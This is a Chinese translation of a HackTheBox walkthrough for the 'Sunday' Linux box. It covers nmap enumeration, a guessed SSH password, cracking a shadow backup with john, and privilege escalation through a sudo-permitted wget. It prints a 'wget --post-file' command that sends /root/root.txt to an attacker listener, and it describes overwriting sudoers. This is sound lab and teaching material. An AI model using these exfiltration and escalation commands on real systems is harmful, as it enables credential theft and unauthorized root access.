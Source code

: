 # 周日 Wget 权限提升黑客盒子演练

> 原文：<https://infosecwriteups.com/sunday-a-wget-privilege-escalation-hackthebox-walkthrough-899e02f86819?source=collection_archive---------0----------------------->

![](img/1baa30432fb7e7ea6f1f3979c49249f0.png)

# 摘要

Sunday 是一台运行 SSH 服务器的 Linux 主机，用户凭证较弱。这被用来访问机器并恢复`/etc/shadow`文件的备份。该备份文件用于破解一个帐户的密码哈希，该帐户能够以提升的权限访问`wget`文件。这被用来破解根标志并获得系统上的根外壳。

# 侦察

我开始对这台主机进行侦察，用`nmap`扫描检查服务版本，并在前 1000 个最常见的端口上运行默认脚本:

```
nmap -sV -sC 10.10.10.76
```

就这样？

这并没有返回太多的工作，所以我转向 UDP，看看是否有什么可以找到。

```
nmap -sU 10.10.10.76
```

好吧…

在这一点上，我仍然觉得缺少了一些东西，所以我使用`nmap`运行了一个快速的全端口扫描，并使用一些参数来提高扫描的速度:

```
nmap -sT --min-rate 5000 --max-retries 1 -p- 10.10.10.76
```

> `*-sT*` — TCP 连接扫描
> `*--min-rate*` —使 nmap 尝试将发送速率保持在或高于指定的每秒数据包数(本例中为每秒 5000 个数据包)
> `*--max-retries*` —限制重新传输次数
> `*-p-*` —扫描所有端口；1 到 65535

nmap -p-

这是一种非常快速且非常嘈杂的扫描，根据网络连接的速度和各种其他因素，它肯定会错过打开的端口，因此请谨慎使用并保持适度的怀疑。

在这次扫描之后，我又进行了一次扫描，以枚举服务版本并在其他开放端口上运行默认脚本:

```
nmap -sV -sC -p22022,34994,53936 10.10.10.76
```

纳米粒子加速器

有意思！这返回了在主机上运行的 SSH。

# 最初的立足点

我承认这一点导致了这个盒子中最令人沮丧的部分。按照真正的 CTF 方式，用户名和密码应该是猜出来的。我不太喜欢这种挑战。我尝试使用`auxiliary(scanner/ssh/ssh_enumusers)` Metasploit 模块和 [OpenSSH 用户枚举测试](https://blog.rootshell.be/2018/08/16/detecting-ssh-username-enumeration/)，以防服务被错误地指纹化为 SunSSH。这些测试的假阳性率很高，我不得不猜测。

论坛上的提示是，我们需要知道的只是主机名，我们可以猜测用户。在对“Sunday”进行多次排列后，我能够猜出密码为`sunday`的用户`sunny`。离理想很远，但现在我有了一个立足点。

# 本地枚举

我在`/backup/shadow.backup`恢复了一个文件。该文件包含 10 个用户，但只有 2 个哈希；一个给`sunny`，另一个给用户`sammy`。我把这个文件传输回我的机器，用`john`破解了`sammy`的哈希:

```
john shadow.backup --wordlist=/usr/share/wordlists/rockyou.txt
```

以`sammy`的身份回到机器，我运行`sudo -l`来查看这个用户能够以提升的权限执行什么。这就是事情变得有趣的地方。

# 权限提升

用户`sammy`能够以提升的权限执行`wget`。这个命令通常与下载远程文件相关联——这是正确的；它的手册页名为“Wget —非交互式网络下载器”

在这个实例中，`wget`的有趣之处在于它也可以用来发送文件。我能够使用以下命令从主机中提取根标志:

```
sudo wget --post-file=/root/root.txt 10.10.14.12
```

在我的本地机器上，我只是使用`ncat`监听连接:

```
ncat -lvnp 80
```

这也有助于过滤其他敏感文件，如`/etc/shadow`来转储散列。

我更喜欢这种方法，因为它简单，对主机的影响小。还有其他方法让 HTB 用户把他们自己的`/etc/shadow`文件和`/etc/passwd`文件放在主机上，但是这些方法对使用同一盒子的其他玩家有负面影响。事实上，我第一次以`sunny`的身份访问机器时，权限被搞砸了，我可以以 root 用户身份运行任何命令，而无需密码……不用说，我必须稍后回来，并在与其他一些以“正确”方式完成此操作的人交谈后，弄清楚我应该如何得到这个盒子！

## 根壳

我发现使用`wget`获得根 shell 的最好方法是将`/etc/sudoers`文件发送到我的机器上，只编辑*和*用户的权限，以便使用提升的权限运行命令。然后，我使用`wget`将文件下载回 Sunday，并获得了一个根 shell。

![](img/d51bf52bae457016bc49c0c243350070.png)

我是 root